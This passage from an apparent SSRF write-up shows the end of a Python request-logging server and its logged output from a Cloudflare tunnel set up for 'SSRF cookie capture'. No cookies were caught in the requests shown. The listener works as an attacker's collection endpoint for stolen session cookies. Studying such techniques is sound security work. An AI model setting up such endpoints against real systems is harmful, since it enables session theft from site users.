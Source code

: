 ```
    server_address = ("0.0.0.0", port)
    httpd = HTTPServer(server_address, RequestLoggerHandler)
    print(f"🚀 Server running on port {port}...")
    httpd.serve_forever()

if __name__ == "__main__":
    run_server()

```

Results of the script and tunnel method for SSRF cookie capture:

```
📌 Received Request:
🔹 Path: /
🍪 Cookies: None
Host: feof-hydraulic-nz-faculty.trycloudflare.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip
Accept-Language: en-US
Cdn-Loop: cloudflare; loops=1; subreqs=1
Cf-Connecting-Ip: 34.140.116.216
Cf-Ew-Via: 15
Cf-Ipcountry: BE
Cf-Ray: 912f889fb177213d-CDG
Cf-Visitor: {"scheme":"https"}
Cf-Warp-Tag-Id: 71b3acf2-8107-4515-9c19-5a859c243117
Cf-Worker: trycloudflare.com
Connection: keep-alive
Priority: u=0, i
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 34.140.116.216
X-Forwarded-Proto: https


127.0.0.1 - - [16/Feb/2025 13:16:08] "GET / HTTP/1.1" 200 -

📌 Received Request:
🔹 Path: /favicon.ico
🍪 Cookies: None
Host: feof-hydraulic-nz-faculty.trycloudflare.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip
Accept-Language: en-US
Cdn-Loop: cloudflare; loops=1; subreqs=1
Cf-Connecting-Ip: 34.140.116.216
Cf-Ew-Via: 15
Cf-Ipcountry: BE
Cf-Ray: 912f88a2e239213d-CDG
Cf-Visitor: {"scheme":"https"}
Cf-Warp-Tag-Id: 71b3acf2-8107-4515-9c19-5a859c243117
Cf-Worker: trycloudflare.com
```